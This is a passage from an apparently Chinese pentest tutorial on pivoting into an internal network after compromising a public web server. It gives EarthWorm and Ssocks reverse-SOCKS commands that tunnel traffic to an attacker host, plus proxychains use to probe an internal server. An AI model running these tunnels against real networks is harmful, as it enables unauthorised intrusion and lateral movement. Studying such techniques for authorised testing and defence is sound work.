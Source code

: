 **Web 服务器的设置**

```
如果是Linux系统：
./ew_for_linux64 -s rssocks -d 100.100.10.13 -e 8888  #将本机的流量全部转发到100.100.10.13的8888端口
 
如果是Windows系统：
ew_for_Win.exe -s rssocks -d 100.100.10.13 -e 8888  #将本机的流量全部转发到100.100.10.13的8888端口
```

**我们主机的设置**

```
如果是Linux系统：
./ew_for_linux64 -s rcsocks -l 1080 -e 8888  #将本机的8888端口的流量都转发给1080端口，这里8888端口只是用于传输流量
然后配置proxychains代理链的配置文件，将代理设置成 127.0.0.1的1080端口：socks5 127.0.0.1 1080 
然后命令前面加上 proxychains即可。如：proxychains curl 192.168.10.19
 
 
如果是Windows系统
ew_for_Win.exe -s rcsocks -l 1080 -e 8888   #将本机的8888端口的流量都转发给1080端口，这里8888端口只是用于传输流量
然后浏览器中设置代理为 100.100.10.12的1080端口，或者利用  Proxifier 、sockscap64 设置全局代理
```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7z9w4dqqVqwbdB8BQeP3seqRYCqXRtsWnibp6j9uhtPxjHFicRt2p6bO9zJnVo1EwE8fmjyY9ibqQ4Q/640?wx_fmt=gif)

Ssocks 正向代理 (Linux)
-------------------

Ssocks 是 Linux 下一款端口转发的工具，而 proxychains 代理链是 Linux 下一款代理设置工具。由于 Ssocks 不稳定，所以不建议使用。

现在有这么一个环境，我们获取到了位于公网 Web 服务器的 shell，该 web 服务器是 Linux 系统，内网中存在另外一台主机，这里假设内网存在一台 Web 服务器。然后，我们现在要将公网 Web 服务器设置为代理，访问和探测内网 Web 服务器的信息。

首先，我们的主机和公网的 Web 服务器都得安装上 Ssocks。

安装 Ssocks 的话，直接安装包安装，软件会被安装在 /usr/local/bin 目录下，所以我们得去该目录执行命令。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k6NcQ3twAZd47lovSuRRo60dwGy6B1VLgHibQIk2MjHibicKXZ6CPlaCMg/640?wx_fmt=png)

**正向代理** 

**Web 服务器的操作**

```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kciaQjibleOVIacmnNMsZZAcFibWQbvcNNYDhAbWX4hzJUyqpPgCLLJ07A/640?wx_fmt=png)

**我们主机的操作**

```
首先配置proxychains代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 
 
./rcsocks -l 1080 -p 9999 -vv   #然后将本地的1080端口的流量转发到9999端口
 
接下来，我们想要访问和操作操作内网主机192.168.10.19的话，只需要在命令前面加上 proxychains
比如，获得内网Web服务器的网页文件：proxychains curl 192.168.10.19
```

